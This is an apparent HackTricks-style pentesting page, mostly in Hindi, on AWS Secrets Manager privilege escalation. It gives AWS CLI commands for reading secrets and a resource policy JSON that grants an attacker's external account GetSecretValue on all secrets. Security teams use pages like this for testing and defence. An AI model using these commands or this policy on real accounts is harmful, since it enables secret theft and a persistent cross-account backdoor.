 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets Manager के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

इस अनुमति वाले attacker AWS **Secretsmanager** में किसी **secret के अंदर का सहेजा गया मान** प्राप्त कर सकता है।
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**संभावित प्रभाव:** AWS Secrets Manager service के अंदर उच्च संवेदनशील डेटा तक पहुँच।

> [!WARNING]
> ध्यान रखें कि भले ही `secretsmanager:BatchGetSecretValue` अनुमति हो, एक हमलावर को संवेदनशील secrets प्राप्त करने के लिए `secretsmanager:GetSecretValue` की भी आवश्यकता होगी।

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

पूर्व अनुमतियों के साथ यह संभव है कि अन्य principals/accounts (even external) को **give access to other principals/accounts (even external)** करके **secret** तक पहुँच दी जा सके। ध्यान दें कि KMS key के साथ **read secrets encrypted** करने के लिए, उपयोगकर्ता के पास **access over the KMS key** भी होना चाहिए (अधिक जानकारी के लिए [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
